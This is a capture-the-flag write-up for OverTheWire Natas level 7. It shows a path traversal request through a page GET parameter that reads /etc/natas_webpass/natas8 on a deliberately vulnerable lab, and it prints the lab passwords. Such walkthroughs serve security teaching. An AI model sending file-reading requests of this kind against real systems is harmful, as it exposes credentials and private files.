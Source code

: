 # Natas Level 7

```bash
Username: natas7
Password: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
URL:      http://natas7.natas.labs.overthewire.org
```
We enter the site, and see the following page:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas7.png" />
    <div align="center">Natas 7</div>
</figure>

We can see two links:
* [Home](http://natas7.natas.labs.overthewire.org/index.php?page=home)
* [About](http://natas7.natas.labs.overthewire.org/index.php?page=about)
Lets follow them:

<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas7-home.png" />
    <div align="center">Natas 7 - Home</div>
</figure>
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas7-about.png" />
    <div align="center">Natas 7 - About</div>
</figure>

Now lets take a look in the source of the homepage:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas7-home-source.png" />
    <div align="center">Natas 7 - Home page source</div>
</figure>

```html
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
```
If we take a lose look, we can see that both pages have the same URL, and the wanted page is being sent as a GET parameter:
```html
http://natas7.natas.labs.overthewire.org/index.php?page=home
```
Lets try a path traversal:
```html
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
```

<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas7-path-traversal.png" />
    <div align="center">Natas 7 - Path traversal</div>
</figure>

Nice!

We got the password for the next level: **DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe**